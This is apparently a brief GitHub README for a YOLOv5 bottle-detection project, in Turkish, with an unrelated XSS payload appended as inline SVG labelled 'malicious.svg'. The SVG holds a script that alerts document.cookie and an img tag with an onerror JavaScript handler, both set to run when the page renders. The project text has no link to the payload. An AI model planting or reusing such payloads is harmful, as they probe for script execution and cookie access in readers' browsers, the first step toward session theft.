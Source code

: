 # Yolov5-sise-algılama
Youtube kanalından anlattıklarımın kodları
![xss](https://github.com/user-attachments/assets/7b9fe7f7-6b0f-452b-868e-3d4cb1d2acf8)
<!-- malicious.svg -->
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert('XSS - Cookie: ' + document.cookie)</script>
  <img src="x" onerror="javascript:alert(9)" />
</svg>

